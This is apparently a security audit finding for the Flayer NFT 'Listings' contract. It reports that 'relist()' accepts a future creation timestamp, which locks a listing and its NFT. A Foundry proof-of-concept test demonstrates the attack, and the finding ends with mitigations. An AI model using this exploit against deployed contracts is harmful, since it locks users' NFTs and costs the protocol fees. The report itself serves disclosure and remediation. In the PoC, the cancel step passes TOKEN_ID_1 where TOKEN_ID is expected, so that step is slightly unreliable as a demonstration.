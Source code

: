 Loud Bone Cottonmouth

Medium

# Malicious user can lock a listing by re-listing it with future time

### Summary

Input parameter validation in `relist()` does not prevent re-listing a listing with `create` value in the future, this leads to the NFT being locked on the contract for indefinite amount of time.

### Root Cause

The `relist()` function does not validate the correctness of the `_listing` argument values and it is possible to re-list a listing with future `_listing.listing.created` value. When such a listing is created it is not possible to a) cancel it b) fill it c) re-list it d) reserve it, until the `block.timestamp` value is greater or equal than `_listing.listing.created`.

Where the listing is registered:
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L665

### Internal pre-conditions

1. A listing needs to be existing on the `Listings` contract.

### External pre-conditions

No external pre-conditions are required

### Attack Path

1. A malicious user calls `relist()` function on the `Listings` contract with `_listing.listing.created` value set higher than `block.timestamp`.

### Impact

1. The Listing (and hance the NFT that it holds) is locked on the `Listings` contract. This means that it cannot be filled or reserved hence any future fees related to that listing are lost for the protocol.
2. The malicious user has to pay only the tax value to succesfully call `relist()` which in the lowest possible case (floor value NFT) is around 2% of the value in terms of the `CollectionToken` ERC20.

### PoC

```solidity
    function test_MyLockListing() public {
        uint16 _floorMultiple = 101;
        address payable _owner1 = payable(address(0x01));
        address payable _owner2 = payable(address(0x02));

        // Deploy our platform contracts
        _deployPlatform();

        // Define our `_poolKey` by creating a collection. This uses `erc721b`, as `erc721a`
        // is explicitly created in a number of tests.
        locker.createCollection(address(erc721a), 'Test Collection', 'TEST', 0);

        // Initialise our collection
        _initializeCollection(erc721a, SQRT_PRICE_1_2);

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner1, TOKEN_ID);

        deal(address(locker.collectionToken(address(erc721a))), _owner1, 1 ether);
        deal(address(locker.collectionToken(address(erc721a))), _owner2, 1 ether);

        // Create our listing for owner 1
        vm.startPrank(_owner1);
        erc721a.approve(address(listings), TOKEN_ID);
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(TOKEN_ID),
                listing: IListings.Listing({
                    owner: _owner1,
                    created: uint40(block.timestamp),
                    duration: VALID_LIQUID_DURATION,
                    floorMultiple: _floorMultiple
                })
            })
        });

        // Warp forward half the time, so that we can test the required amount to be repaid in addition
        vm.warp(block.timestamp + (VALID_LIQUID_DURATION / 2));

        // approve the ERC20 collectionToken
        vm.startPrank(_owner1);
        locker.collectionToken(address(erc721a)).approve(address(listings), 1 ether);

        vm.startPrank(_owner2);
        locker.collectionToken(address(erc721a)).approve(address(listings), 1 ether);

        // owner 2 relists from his second account
        vm.startPrank(_owner2);
        listings.relist(IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(TOKEN_ID),
                listing: IListings.Listing({
                    owner: _owner2,
                    created: uint40(block.timestamp + 365 days), // if in the future the listing cannot be cancelled.
                    duration: VALID_LIQUID_DURATION,
                    floorMultiple: _floorMultiple
                })
            }), 
            false
        );

        // Cancelling the listing reverts:
        vm.startPrank(_owner2);
        vm.expectRevert();
        listings.cancelListings(address(erc721a), _tokenIdToArray(TOKEN_ID_1), false);

        // relisting reverts. All other functions need to calculate the tax in the same way which with future date leads to an overflow.
        vm.startPrank(_owner1);
        vm.expectRevert();
        listings.relist(IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(TOKEN_ID),
                listing: IListings.Listing({
                    owner: _owner1,
                    created: uint40(block.timestamp),
                    duration: VALID_LIQUID_DURATION,
                    floorMultiple: _floorMultiple
                })
            }), 
            false
        );

    }
```

### Mitigation

Depending on the required functionality:
1) Validate the `_listing.listing.created` value to reach to the future to just a certain extent if this is intended.
2) When re-listing, assign the `created` variable to `block.timestamp`